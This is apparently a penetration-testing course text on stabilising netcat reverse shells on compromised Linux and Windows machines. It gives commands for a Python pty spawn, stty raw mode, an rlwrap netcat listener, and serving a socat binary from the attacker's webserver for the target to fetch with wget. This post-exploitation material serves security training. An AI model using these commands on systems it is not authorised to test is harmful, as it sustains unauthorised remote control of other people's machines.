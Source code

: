 Ok, so we've caught or connected to a netcat shell, what next?

These shells are very unstable by default. Pressing Ctrl + C kills the whole thing. They are non-interactive, and often have strange formatting errors. This is due to netcat "shells" really being processes running inside a terminal, rather than being bonafide terminals in their own right. Fortunately, there are many ways to stabilise netcat shells on Linux systems. We'll be looking at three here. Stabilisation of Windows reverse shells tends to be significantly harder; however, the second technique that we'll be covering here is particularly useful for it.

Technique 1: Python

The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

The first thing to do is use python -c 'import pty;pty.spawn("/bin/bash")', which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace python with python2 or python3 as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
Step two is: export TERM=xterm -- this will give us access to term commands such as clear.
Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
The full technique can be seen here:



Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

Technique 2: rlwrap

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with sudo apt install rlwrap.

To use rlwrap, we invoke a slightly different listener:

rlwrap nc -lvnp <port>

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use stty raw -echo; fg to stabilise and re-enter the shell.

 Technique 3: Socat

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (sudo python3 -m http.server 80), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (wget <LOCAL-IP>/socat -O /tmp/socat).
